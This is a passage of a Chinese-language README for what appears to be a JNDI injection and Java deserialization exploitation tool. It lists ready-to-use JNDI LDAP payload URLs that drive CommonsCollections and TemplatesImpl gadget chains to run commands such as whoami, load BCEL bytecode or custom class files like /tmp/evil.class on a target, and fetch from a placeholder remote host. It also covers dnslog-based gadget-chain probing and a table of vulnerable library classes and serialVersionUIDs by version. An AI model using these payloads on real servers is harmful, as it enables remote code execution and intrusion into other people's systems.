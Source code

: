 ```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections1/command/Base64/HL-http://xxx.com
```

BC ：BCEL Classloader - 通过 ..bcel...ClassLoader.loadClass().newInstance() 来加载 BCEL 类字节码，使用命令 BC-$BCEL$xxx

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections1/command/Base64/BC-$BCEL$xxx
```

其他：普通命令执行 - 通过 Runtime.getRuntime().exec() 执行系统命令，使用命令 whoami

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections1/command/Base64/whoami
```

## 1.6 其他利用链拓展

对于除了以上的利用链,使用的是 `TemplatesImpl` 类来实现。

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections3/command/Base64/whoami
```

## 1.7 任意自定义代码

对于使用了 `TemplatesImpl` 类来实现的链子来说，可以使用此方法

如果你不想使用本项目中提供的恶意逻辑，也不想执行命令，可以通过自定义代码的形式，自定义代码将会在目标服务器通过 `ClassLoader`
进行加载并实例化。命令使用 `LF#` 开头，后面跟指定自定义类字节码文件的绝对路径。

示例：

**class 类文件绝对路径**

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections3/command/Base64/LF#/tmp/evil.class-org
```

## 1.8 利用链探测

参考了 kezibei 师傅的 URLDNS 项目，实际情况可能有如下几种情况导致问题：

+ 反序列时遇到黑名单，可能导致后面的类的 dnslog 出不来；
+ 反序列化流程中由于种种情况报错可能导致出不来。

因此这里还是提供了 all/common/指定类 三种探测方式：

+ all：探测全部的类；
+ common：探测不常在黑名单中的 CommonsBeanutils2/C3P0/AspectJWeaver/bsh/winlinux；
+ 指定类：使用对应链中的关键字 CommonsCollections24:xxxx.dns.log 。

```
jndi:ldap://127.0.0.1:1389/Deserialization/URLDNS/command/Base64/all:xxxxxx.dns.log
```

| DNSLOG 关键字                               | 对应链                  | 关键类                                                       | 备注                                                         |
| ------------------------------------------- | ----------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| cc31or321<br />cc322                        | CommonsCollections13567 | org.apache.commons.collections.functors.ChainedTransformer<br />org.apache.commons.collections.ExtendedProperties$1 | CommonsCollections1/3/5/6/7<br />需要<=3.2.1版本             |
| cc40<br />cc41                              | CommonsCollections24    | org.apache.commons.collections4.functors.ChainedTransformer<br />org.apache.commons.collections4.FluentIterable | CommonsCollections2/4链<br />需要4-4.0版本                   |
| cb17<br />cb18x<br />cb19x                  | CommonsBeanutils2       | org.apache.commons.beanutils.MappedPropertyDescriptor\$1<br />org.apache.commons.beanutils.DynaBeanMapDecorator\$MapEntry<br />org.apache.commons.beanutils.BeanIntrospectionData | 1.7x-1.8x为-3490850999041592962<br />1.9x为-2044202215314119608 |
| c3p092x<br />c3p095x                        | C3P0                    | com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase<br />com.mchange.v2.c3p0.test.AlwaysFailDataSource | 0.9.2pre2-0.9.5pre8为7387108436934414104<br />0.9.5pre9-0.9.5.5为7387108436934414104 |
| ajw                                         | AspectJWeaver           | org.aspectj.weaver.tools.cache.SimpleCache                   | AspectJWeaver,需要cc31                                       |
| bsh20b4<br />bsh20b5<br />bsh20b6           | bsh                     | bsh.CollectionManager\$1<br />bsh.engine.BshScriptEngine<br />bsh.collection.CollectionIterator\$1 | 2.0b4为4949939576606791809<br />2.0b5为4041428789013517368<br />2.0.b6无法反序列化 |
| groovy1702311<br />groovy24x<br />groovy244 | Groovy                  | org.codehaus.groovy.reflection.ClassInfo\$ClassInfoSet<br />groovy.lang.Tuple2<br />org.codehaus.groovy.runtime.dgm\$1170 | 2.4.x为-8137949907733646644<br />2.3.x为1228988487386910280  |